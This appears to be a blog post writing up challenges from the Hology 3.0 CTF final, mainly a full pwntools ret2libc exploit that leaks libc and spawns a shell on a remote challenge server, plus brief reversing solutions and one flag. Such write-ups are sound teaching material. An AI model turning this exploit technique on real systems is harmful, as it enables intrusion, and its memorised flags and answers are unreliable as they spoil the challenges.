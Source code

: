```yaml
---
layout: post
title:  "Writeup Hology 3.0 CTF Final"
date:   2020-11-26
categories: ctf
description: Writeup Hology 3.0 CTF Final
tags: ctf-writeup
---
```


<img src="/images/hology3/banner.png"/>

my team glut0r is qualifed to the final round this year, and this is my write up for some challenge

<ul>
    <li><h3>Pwn</h3></li>
    <li><a href="#hello">Hello</a></li>
    <li><h3>Rev</h3></li>
    <li><a href="#n0t">n0t so long</a></li>
    <li><a href="#phone">phone</a></li>
<ul>

<h1 id="hello">Hello | pwn</h1>

this is a simple ret2libc attack
leak libc function, calculate to `system()` and `/bin/sh`

my exploit:

{% highlight python %}
#!/usr/bin/env python2
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="debug",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/hology3-final/pwn/hello/hallo")
elf = ELF(TARGET)
libc= ELF("./libc.so")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

# 0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   rsp & 0xf == 0
#   rcx == NULL

# 0x4f432 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   [rsp+0x40] == NULL

# 0x10a41c execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL
def exploit(r):
    attach(r)
    puts_got = elf.got['puts']
    pop_rdi = 0x0000000000400733
    puts = 0x000000000400520
    main = 0x0000000000400637
    ret = 0x0000000000400506
    p = "A" * 71
    p += ">"
    p += p64(pop_rdi)
    p += p64(puts_got)
    p += p64(puts)
    p += p64(main)
    r.sendlineafter(":",p)
    r.recvuntil(">")
    leak = u64(r.recv().split()[1].ljust(8, "\x00"))
    log.info("leak: " + hex(leak))
    base = leak  - libc.sym['puts'] 
    syst = libc.sym['system'] + base 
    binsh = libc.search("/bin/sh").next()
    one = 0x10a41c + base
    info(hex(syst))

    p = "A" * 72
    # p += p64(pop_rdi)
    # p += p64(binsh)
    # p += p64(syst)
    # p += p64(syst)
    p += p64(one)
    r.sendline(p)
    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("95.111.192.17", 31337)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}

<h1 id="n0t">n0t so long | Rev</h1>

the flag is already in the binary file, so we can just collect all the string using ida

<img src="/images/hology3/ps.png"/>
flag: 1nput_d035nt_p4s5_m4x_int39er

<h1 id="phone">Phone | Rev</h1>

we can solve this challenge with the same approaches to the previous challenge, first i found this function


<img src="/images/hology3/us.png"/>

looks like this function will print out an `_` string, so this is the part of the flag, now we can just xref 
this function

<img src="/images/hology3/xref.png"/>

now we can just collect all the string from xref or we can use gdb to jump to the first function that print the flag